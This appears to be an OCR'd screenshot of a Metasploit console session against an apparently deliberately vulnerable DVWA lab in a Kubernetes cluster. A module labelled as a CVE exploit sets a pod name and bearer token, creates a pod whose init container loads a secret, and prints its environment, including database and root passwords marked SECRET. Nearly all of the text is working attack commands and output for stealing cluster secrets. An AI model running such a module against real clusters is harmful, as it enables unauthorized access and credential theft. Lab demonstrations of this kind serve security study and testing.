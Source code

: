 ```
NAMESPACE => dvwa-tfm-mysql
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set POD_NAME cve-pod-2
POD_NAME => cve-pod-2
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > run
[*] Running module against 192.168.49.2
[*] Fetching Kubernetes server version...
[+] Kubernetes server version: v1.27.2
[+] The kube-apiserver version v1.27.2 is vulnerable to the selected CVE.
[*] Creating pod with the following spec: {"apiVersion":"v1","kind":"Pod","metadata":{"name":"cve-pod-2","namespace":"dvwa-tfm-mysql"},"spec":{"containers":[{"name":"init-main-container","image":"busybox","command":["/bin/sh"],"args":["-c","sleep 3600"]}],"restartPolicy":"Never","initContainers":[{"name":"exploit-container","image":"busybox","command":["/bin/sh"],"args":["-c","sleep 3600"],"envFrom":[{"secretRef":{"name":"dvwa-secrets"}}]}]}}
[*] Pod not found, creating a new one.
[+] Pod created successfully: cve-pod-2
[*] Waiting for the init container to start...
[*] Checking pod and container status...
[+] Init container is running.
[*] Retrieving environment variables from init container using Kubernetes API...
[*] WebSocket connection opened

KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.96.0.1:443
DVWA_MYSQL_SERVICE_PORT_3306_TCP_ADDR=10.99.148.252
HOSTNAME=cve-pod-2
SHLVL=1
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PORT=3306
HOME=/root
DVWA_MYSQL_SERVICE_SERVICE_HOST=10.99.148.252
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PROTO=tcp
** SECRET ** DVWA_PASSWORD=p@ssw0rd ** SECRET **
DVWA_MYSQL_SERVICE_PORT=tcp://10.99.148.252:3306
DVWA_MYSQL_SERVICE_SERVICE_PORT=3306
DVWA_MYSQL_SERVICE_PORT_3306_TCP=tcp://10.99.148.252:3306
** SECRET ** ROOT_PASSWORD=dvwa ** SECRET **
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
** SECRET ** DVWA_DATABASE=dvwa ** SECRET **
** SECRET ** DVWA_USERNAME=dvwa ** SECRET **
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
PWD=/
[*] WebSocket connection closed: 1000, 
[*] Auxiliary module execution completed
```
